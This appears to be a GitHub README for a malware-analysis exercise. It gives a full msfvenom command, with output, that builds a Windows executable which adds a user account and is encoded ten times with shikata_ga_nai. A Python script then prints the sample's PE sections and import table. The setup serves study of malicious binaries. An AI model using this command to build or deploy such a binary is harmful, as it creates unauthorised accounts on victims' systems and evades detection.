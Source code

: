 # Malware-Analysis

Create Malicious exe file using Metasploit module (msfvenom) that adds a user "testuser321" and password "Test@321". Encode the file using encoder shikata_ga_nai with iteration 10 times as shown below.

root@kali64:~# msfvenom -p windows/adduser user=testuser1 pass=Test@321 -e x86/shikata_ga_nai -i 10 -f exe -o ~/testadd10.exe  
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload  

[-] No arch selected, selecting arch: x86 from the payload  
Found 1 compatible encoders  
Attempting to encode payload with 10 iterations of x86/shikata_ga_nai  
x86/shikata_ga_nai succeeded with size 303 (iteration=0)
x86/shikata_ga_nai succeeded with size 330 (iteration=1)
....
x86/shikata_ga_nai succeeded with size 519 (iteration=8)
x86/shikata_ga_nai succeeded with size 546 (iteration=9)
x86/shikata_ga_nai chosen with final size 546
Payload size: 546 bytes
Final size of exe file: 73802 bytes
Saved as: /root/testadd10.exe
root@kali64:~# 

# Getting Started & Examples
The script will show the sections & its virtual address and IAT of the file as shown below    

root@kali64:~# python pe_test.py testadd10.exe
Sections:.text, Virtual Address:0x1000\
Sections:.rdata, Virtual Address:0xc000\
Sections:.data, Virtual Address:0xd000\
Sections:.rsrc, Virtual Address:0x15000

-------------------------------------------
List of IAT

MSVCRT.dll\
	_iob\
	_except_handler3\
    .....................
	_strdup\
	_strnicmp\
KERNEL32.dll\
	PeekNamedPipe\
	ReadFile\
	WriteFile\
       ....................
